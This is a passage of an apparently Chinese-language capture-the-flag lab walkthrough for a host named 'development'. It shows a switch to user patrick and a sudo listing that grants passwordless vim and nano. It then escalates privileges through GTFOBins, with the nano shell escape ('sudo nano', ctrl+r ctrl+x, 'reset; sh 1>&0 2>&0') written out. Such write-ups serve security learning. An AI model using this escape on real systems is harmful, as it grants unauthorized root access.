 ```bash
[sudo] password for intern: 
Sorry, user intern may not run sudo on development.
```

### 切换用户

```bash
intern@development:~$ su patrick
Password: 
patrick@development:/home/intern$ whoami
patrick
patrick@development:/home/intern$ id
uid=1001(patrick) gid=1005(patrick) groups=1005(patrick),108(lxd)
patrick@development:/home/intern$ sudo -l
Matching Defaults entries for patrick on development:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User patrick may run the following commands on development:
    (ALL) NOPASSWD: /usr/bin/vim
    (ALL) NOPASSWD: /bin/nano
```

### vim提权

https://gtfobins.github.io/gtfobins/vim/

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403232024745.png" alt="image-20240323202013469" style="zoom: 50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403232024747.png" alt="image-20240323202106017" style="zoom:50%;" />

### nano提权

https://gtfobins.github.io/gtfobins/nano/

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403232024748.png" alt="image-20240323202157480" style="zoom:50%;" />

```bash
sudo nano
ctrl+r ctrl+x
reset; sh 1>&0 2>&0
```

![image-20240323202356523](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403232024749.png)

